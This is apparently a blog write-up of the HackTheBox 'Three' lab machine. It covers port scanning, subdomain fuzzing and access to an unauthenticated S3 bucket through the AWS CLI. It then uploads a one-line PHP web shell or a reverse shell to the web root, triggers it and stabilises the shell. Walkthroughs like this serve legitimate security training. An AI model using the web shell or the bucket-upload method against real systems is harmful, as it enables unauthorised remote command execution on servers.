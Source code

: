 ```yaml
---
title: "HackTheBox - Three"
author: Nasrallah
description: ""
date: 2022-07-21 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, wfuzz, subdomain, s3]
img_path: /assets/img/hackthebox/machines/three/
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Three](https://app.hackthebox.com/starting-point?tier=1) from [HackTheBox](https://www.hackthebox.com). The target is running webserver on port 80, we run a subdomain scan on the target and find that it has a s3 bucket. We can connect to the that bucket without creds, upload a reverse shell and get in.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.129.182.157 (10.129.182.157)                                                                                                          
Host is up (0.26s latency).                                                                                                                                   
Not shown: 998 closed tcp ports (reset)                                                                                                                       
PORT   STATE SERVICE VERSION                                                                                                                                  
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)                                                                             
| ssh-hostkey:                                                                                                                                                
|   2048 17:8b:d4:25:45:2a:20:b8:79:f8:e2:58:d7:8e:79:f4 (RSA)                                                                                                
|   256 e6:0f:1a:f6:32:8a:40:ef:2d:a7:3b:22:d1:c7:14:fa (ECDSA)                                                                                               
|_  256 2d:e1:87:41:75:f3:91:54:41:16:b7:2b:80:c6:8f:05 (ED25519)                                                                                             
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))                                                                                                           
|_http-title: The Toppers                                                                                                                                     
|_http-server-header: Apache/2.4.29 (Ubuntu)                                                                                                                  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found port 22(SSH) and 80(HTTP) open.

### Web

Let's go to the webpage.

![](1.png)

Nothing much but if we got the the contact section, we find a domain name.

![](3.png)

Let's add that to the `etc/hosts` file.

```terminal
sudo echo '10.129.182.157   thehoppers.htb` >> /etc/hosts
```

Every time we find a domain, it's a good idea to enumerate for subdomains.

#### Wfuzz

Let's enumerate subdomains with `wfuzz`.

```terminal
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb/ -H "Host: FUZZ.thetoppers.htb" --hl 234
```

![](2.png)

We found `s3` subdomains which is Amazon’s cloud-based object storage service.

## **Foothold**

A quick search on google we find that we can use `AWScli` to connect to that `s3` bucket.

We need to configure it using the following command.

```terminal
aws configure

AWS Access Key ID [None]: none
AWS Secret Access Key [None]: none
Default region name [None]: none
Default output format [None]: none
```

> I provided a random value to the fields because sometimes the server is configured to not check authentication and it must be set to something for `aws` to work.

![](4.png)

Before we continue, we need to add the `s3.thetoppers.htb` to our `/etc/hosts` file.

![](5.png)

Great! To list the content of the s3 bucket, we use the following command:

```terminal
aws --endpoint=http://s3.thetoppers.htb s3 ls
```

![](6.png)

Found an object with the name `thetoppers.htb`, to list it, we add `s3://thetoppers.htb` at the end of our command:

```terminal
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

![](7.png)

We found `index.php` and `htaccess` files and a directory named `images`. This bucket must be the root directory of the website.

The awscli allows us to cp files to the bucket. We can leverage that and upload a php reverse shell to get access to the target. We can use [Pentest Monkey's reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) or use a simple php script that gives us command execution on the target.

```php
<?php system($_GET["cmd"]); ?>
```

I just uploaded the reverse shell.

![](9.png)

Next is to setup a listener and request the `shell.php` file to trigger it and get a reverse shell.

![](8.png)

Then we stabilize our shell with python pty:

```terminal
python3 -c 'import pty;pty.spawn("/bin/bash")'

export TERM=xterm

**ctrl + z**

stty raw -echo;fg
```

![](10.png)

We can find the flag under `/var/www`.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
